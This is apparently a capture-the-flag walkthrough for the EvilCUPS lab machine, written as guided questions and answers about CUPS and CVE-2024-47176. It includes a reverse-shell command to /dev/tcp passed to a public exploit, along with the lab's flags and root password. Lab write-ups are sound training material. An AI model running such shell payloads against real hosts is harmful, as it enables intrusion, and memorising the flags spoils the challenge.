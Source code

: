 ## Guided:
**Q:** How many open TCP ports are listening on EvilCUPS?<br>
**A:** 2 <br>
> (631 and 22)

**Q:** What UDP port related to one of the TCP services is listening on EvilCUPS?<br>
**A:** 631     (Cups)

**Q:** What version of CUPS is running on EvilCUPS?<br>
**A:** 2.4.2

**Q:** What is the 2024 CVE ID for a vulnerability in cups-browsed that allows any user to add a printer to a machine remotely triggering a Get-Printer-Attributes request to an attacker-controlled URL?<br>
**A:** CVE-2024-47176 <br>
> [Source](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) <br>

### Note: 
1. Donwloaded Ippsec's [exploit](https://github.com/IppSec/evil-cups)<br>
2. lunched it, `python3 evilcups.py <MY-IP> <TARGET-IP> 'bash -c "bash -i >& /dev/tcp/<MY-IP>/4444 0>&1"'`<br>
> Opened `Web-site` -> `Printers` -> Selected the printer i've added <br>and made a request to `Print Test Page` to exec my rev-shell.

**Q:** What user is CUPS running as on EvilCUPs?<br>
**A:** lp

**Q:** Submit the flag located in the htb user's home directory.<br>
**A:** 09fa910dade79ed742b402c733a832bd

**Q:** What is the name of the legit printer installed on EvilCUPS?<br>
**A:** Canon_MB2300_series<br>
> (showed at the web-site / Printers)

**Q:** What is the full path to the completed print job with id 1 on the EvilCUPS filesystem?<br>
**A:** /var/spool/cups/d00001-001<br>
> [Source](https://www.cups.org/doc/spec-design.html) <br>
> (At 'Jobs Files' section)
    
**Q:** What is the root user's password on EvilCUPS?<br>
**A:** Br3@k-G!@ss-r00t-evilcups

**Q:** Submit the flag located in the root user's home directory.<br>
**A:** 7a43bde40c417ffcbe010780ea52be30

[gg-meme](https://www.evilsocket.net/images/2024/cups1/im_your_printer.jpg)
